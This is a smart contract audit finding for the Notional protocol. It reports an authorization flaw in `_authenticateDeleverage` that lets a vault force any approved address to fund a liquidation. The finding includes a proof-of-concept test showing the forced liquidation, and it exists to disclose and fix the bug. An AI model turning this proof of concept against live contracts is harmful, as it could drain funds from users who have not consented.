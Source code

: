 Arbitrary-Execution
# When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Summary
When `ONLY_VAULT_DELEVERAGE` is enabled a vault can force an arbitrary address to liquidate an unhealthy vault account

## Vulnerability Detail
When the `ONLY_VAULT_DELEVERAGE` flag is set, only the vault address itself can call `deleverageAccount` in `VaultAccountAction.sol`. This is enforced via the `_authenticateDeleverage` function:

```solidity
// Authorization rules for deleveraging
if (vaultConfig.getFlag(VaultConfiguration.ONLY_VAULT_DELEVERAGE)) {
    require(msg.sender == vault, "Unauthorized");
} else {
    require(msg.sender == liquidator, "Unauthorized");
}
```

However, inside the `if` block when the `ONLY_VAULT_DELEVERAGE` flag is set, the `require` statement only checks that `msg.sender == vault`. This check is different from the other check in the `else` block as it does not check that the passed-in `liquidator` address is also the vault address. This means the vault address can supply _any_ address as the liquidator, which is ultimately the address that has to pay the token amount to liquidate an unhealthy vault account. As long as the unwilling liquidator meets the following conditions it can be forced to liquidate accounts by the vault:

1. The liquidator has enough of the underlying tokens necessary for liquidation.
2. The liquidator has approved the Notional proxy address with enough tokens necessary for liquidation.
3. The liquidator does not already have a position in the vault whose maturity is different from the one of the unhealthy account.

## Impact
A vault account can force _any_ address to liquidate an unhealthy vault account so long as the above conditions are met, even if the liquidation would be unprofitable for the liquidator.

## Code Snippet
PoC (add to `tests/stateful/vaults/test_vault_deleverage.py`):
```python
def test_deleverage_account_from_vault_with_different_account(environment, accounts, vault):
    environment.notional.updateVault(
        vault.address,
        get_vault_config(currencyId=2, flags=set_flags(0, ENABLED=True, ONLY_VAULT_DELEVERAGE=1)),
        100_000_000e8,
    )
    maturity = environment.notional.getActiveMarkets(1)[0][1]
    vaultAccount = accounts.at(vault.address, force=True)

    # The vault account does not have any DAI/cDAI that would be necessary to liquidate an account
    assert environment.token["DAI"].balanceOf(vaultAccount) == 0
    assert environment.cToken["DAI"].balanceOf(vaultAccount) == 0

    environment.notional.enterVault(
        accounts[1], vault.address, 50_000e18, maturity, 200_000e8, 0, "", {"from": accounts[1]}
    )

    vault.setExchangeRate(0.95e18)

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    assert accountInfo["maturity"] == 0

    # Notice how the liquidator here is accounts[2], but the caller is the vault account.
    # accounts[2] meets the 3 requirements:
    # 1) holds enough DAI/cDAI to liquidate an account
    # 2) has approved the Notional proxy to transfer tokens (maybe they are interacting with other
    #    functionality within Notional)
    # 3) does not currently hold a maturity in the vault
    environment.notional.deleverageAccount(
        accounts[1], vault.address, accounts[2], 1_000e8, True, "", {"from": vaultAccount}
    )

    accountInfo = environment.notional.getVaultAccount(accounts[2], vault)
    # accounts[2] now has a position in the vault due to the forced liquidation
    assert accountInfo["maturity"] != 0
```

## Tool used

Manual Review

## Recommendation
Consider adding a check to `_authenticateDeleverage` to ensure that when the `ONLY_VAULT_DELEVERAGE` flag is set the vault account can only set the liquidator to be itself or its owner address.
